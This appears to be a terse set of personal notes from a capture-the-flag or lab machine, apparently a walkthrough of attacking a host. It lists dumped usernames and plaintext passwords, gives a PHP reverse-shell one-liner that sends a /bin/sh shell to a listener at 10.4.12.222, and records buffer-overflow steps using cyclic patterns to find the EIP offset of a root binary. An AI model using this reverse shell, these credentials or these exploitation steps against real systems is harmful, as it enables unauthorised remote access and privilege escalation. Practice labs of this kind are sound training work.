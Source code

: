 export IP=10.10.143.199

+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+

rce success   -----   php -r '$sock=fsockopen("10.4.12.222",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

pingu account = pingu

pingu ssh pass = pinguapingu    (/var/hidden/pass)

pwngdb on file /opt/secret/root with r < <(cyclic 50)   -------(Cyclic values for buffer overflow test returns promising)




trying when reached to EIP with  -- cyclic -l 0x6161616c
